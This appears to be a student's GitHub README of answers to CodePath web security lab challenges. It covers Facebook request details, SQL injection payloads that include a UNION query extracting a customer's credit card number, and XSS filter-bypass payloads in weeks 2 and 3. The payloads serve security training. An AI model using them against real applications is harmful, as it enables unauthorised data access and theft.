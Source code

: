 # Web-Securities-Labs
codepath Web Securities labs

## Week 1
Insecure Direct Object Reference:
1) Go to https://facebook.com. What is the Cache-Control header set to in the response? Enter as a comma-delimited list below. Order doesn't matter, and values are case insensitive. 
``` private, no-cache, no-store, must-revalidate ```

2) What is the URI for liking a Facebook post on your homepage? Hint: https://www.quora.com/What-does-Facebook-refer-to-as-UFI
``` /ufi/reaction/?dpr=1 ```

3) When posting your status to Facebook, which query parameter contains the text of your message? Hint: Make sure you're not filtering out URIs like: ajax/updatestatus 
``` xhpc_message_text ```

## Week 2
SQL injections:
1) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key.

Please enter the Customer Id of the user that you want to look up: 
``` SELECT * FROM customers WHERE customerId ="1" OR '1' = '1'; -- ";```

2) To complete this challenge, you must exploit the SQL injection flaw in the following form to find the result key.

Please enter the Customer Email of the user that you want to look up:
``` SELECT * FROM customers WHERE customerEmail ="samman@gmail.com' OR '1' = '1'; -- "@gmail.com ```

3) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key. The developer of this level has attempted to stop SQL Injection attacks by escaping apostrophes so the database interpreter will know not to pay attention to user submitted apostrophes.
```SELECT * FROM customers WHERE customerId ="2\' OR 1 = 1;-- "; ```

4) To complete this challenge, you must exploit a SQL injection issue in the following sub application to acquire the credit card number from one of the customers that has a customer name of Mary Martin. Mary's credit card number is the result key to this challenge.
``` SELECT customerName from customers where customerName='Mary MArtin' Union select CreditCardNumber from customers where customerName="mary martin"; # ```

## Week 3
Cross Site Scripting One

1) Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
Please enter the Search Term that you want to look up 
```<IMG SRC="#" ONERROR="alert('XSS')"/>```

2)  Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
Please enter the Search Term that you want to look up 
```<IMG SRC="#" ONMESSAGE="alert('XSS')"/>```

3) In this one, the developer is completely removing the handler name. 
``` <SCRonmessageIPT>alert('XSS')</SCRonmessageIPT> ```

4) Huh
